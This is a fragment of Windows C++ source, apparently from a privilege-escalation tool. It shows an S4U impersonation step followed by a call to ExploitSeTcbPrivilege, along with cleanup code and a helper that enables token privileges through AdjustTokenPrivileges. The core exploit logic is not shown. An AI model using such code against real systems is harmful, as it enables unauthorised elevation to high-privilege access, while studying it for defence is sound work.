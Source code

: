```c++
	}

	wprintf(L"\n[*] Successfully impersonated S4U.\n");
	ExploitSeTcbPrivilege();

	goto Clear;

Clear:
	if (OriginName.Buffer)
		LocalFree(OriginName.Buffer);
	if (pLogonSid)
		LocalFree(pLogonSid);
	if (pExtraSid)
		LocalFree(pExtraSid);
	if (pS4uLogon)
		LocalFree(pS4uLogon);
	if (pGroups)
		LocalFree(pGroups);
	if (hLSA)
		LsaClose(hLSA);
	if (hToken)
		CloseHandle(hToken);
	if (hTokenS4U)
		CloseHandle(hTokenS4U);
	
	return status;
}


BOOL EnableTokenPrivilege(HANDLE hToken, LPCWSTR lpName)
{
	BOOL status = FALSE;
	LUID luidValue = { 0 };
	TOKEN_PRIVILEGES tokenPrivileges;

	// Get the LUID value of the privilege for the local system
	if (!LookupPrivilegeValueW(NULL, lpName, &luidValue))
	{
		wprintf(L"[-] LookupPrivilegeValue Error: [%u].\n", GetLastError());
		return status;
	}

	// Set escalation information
	tokenPrivileges.PrivilegeCount = 1;
	tokenPrivileges.Privileges[0].Luid = luidValue;
	tokenPrivileges.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

	// Elevate Process Token Access
	if (!AdjustTokenPrivileges(hToken, FALSE, &tokenPrivileges, sizeof(tokenPrivileges), NULL, NULL))
	{
		wprintf(L"[-] AdjustTokenPrivileges Error: [%u].\n", GetLastError());
		return status;
	}
	else
	{
		status = TRUE;
	}
	return status;
}


int wmain(int argc, wchar_t* argv[])
```